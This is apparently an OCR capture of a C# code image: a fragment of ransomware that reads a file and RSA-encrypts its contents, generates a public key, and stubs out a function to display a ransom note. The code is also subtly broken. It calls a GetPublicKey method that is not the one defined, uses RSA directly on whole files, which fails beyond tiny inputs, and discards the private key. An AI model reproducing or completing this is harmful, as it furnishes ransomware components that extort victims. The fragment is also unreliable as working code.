```csharp



    static byte[] EncryptFile(string filePath)

    {

        byte[] data = File.ReadAllBytes(filePath);

        byte[] encryptedData;



        using (RSACryptoServiceProvider rsa = new RSACryptoServiceProvider())

        {

            rsa.FromXmlString(GetPublicKey());

            encryptedData = rsa.Encrypt(data, true);

        }



        return encryptedData;

    }



    static string GeneratePublicKey()

    {

        using (RSACryptoServiceProvider rsa = new RSACryptoServiceProvider())

        {

            return rsa.ToXmlString(false);

        }

    }



    static void DisplayRansomNote(string publicKey)

    {

        // Insert code to display ransom note with the generated public key

    }

}

```
